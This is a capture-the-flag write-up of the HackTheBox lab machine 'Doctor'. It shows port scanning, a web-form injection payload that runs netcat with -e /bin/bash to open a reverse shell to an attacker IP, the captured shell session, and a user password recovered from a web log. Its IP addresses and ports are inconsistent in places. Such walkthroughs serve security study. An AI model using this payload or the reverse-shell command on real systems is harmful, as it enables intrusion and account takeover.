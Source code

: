 # HackTheBox – Doctor

- Write-Up Author: [Calvin Lai](http://security.calvinlai.com)

## **Question:**
> Doctor

![img](./img/1.png)

## Background

Dictor is a Linux machine from HackTheBox. A web application was hosted at this server which had the XSS vulnerability. The initial access was got when submitted a reverse shell XSS payload. A password changing record was found at the web server log, the user flag got. 

130n@calvinlai.com

Target Machine: 10.10.10.209

Attacker Machine: 10.10.14.16

## Write up
### 1. Service Scanning:

- Quick Pre-searching:

	![img](./img/2.png)

	```
	nmap -p- -T5 --min-rate=1000 10.10.10.209-oG fkclai.nmap
	```

- Details Analysis:

	![img](./img/3.png)

	```
	nmap -p $(grep -Eo '[0-9]{1,5}/open' fkclai.nmap | cut -d '/' -f 1 | tr -s '\n' ',') -sC -sV 10.10.10.209 -o nmap-result.txt
	```

- Enumeration strategies:
	1. Check Website Vulnerability  
	2. Check any hidden files/folders of the website
	3. Check the website

***
### 2. Enumeration:

Visit the website and read the page source, it was found that the doctor.htb should be included in the host table before further enumeration.

![img](./img/4.png)

A login page was found by visiting the http://doctors.htb

![img](./img/5.png)

Tried using gobuster and dirb to find another hidden fold, but the result is negative. Nikto also does not has any good news. 

Finally, registered a user account and enumerate the inside. It was found that there was an XSS vulnerability at the POST message form.

![img](./img/6.png)

After several tried, this payload was used to get the reverse shell

```
< img  src = http://10.10.14.26:8888/$(nc.traditional$IFS-e$IFS/bin/bash$IFS ' 10.10.17.216 '$ IFS ' 6666 ')>
```

![img](./img/7.png)

```
root@fkclai:~/Documents/ctf/htb/linux/19-HTB-doctor# nc -nvlp 1234
listening on [any] 6666 ... 
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.209] 38714 
whoami 
web 
python3 -c 'import pty;pty .spawn("/bin/bash")' 
web@doctor:~$
web@doctor:~$ cd /home/ 
web@doctor:/home$ ls 
shaun web 
web@doctor:/home$ cd shaun/ 
web@doctor:/home/shaun$ ls 
user.txt 
web@doctor:/home/ shaun$ cat user.txt 
cat: user.txt: Permission denied 
web@doctor:/home/shaun$
```

***
### 3. Gaining Foothold:

After the user account "Shaun" was found that saved the user.txt, focusing the enumeration of this account. Finally, visited the apache2 log, there was a password reset process of this account Shaun was found at the acess.log. The password of this user account **shaun** is **Guitar123**

![img](./img/8.png)

sudo this user account, the user flag was found. 

![img](./img/9.png)
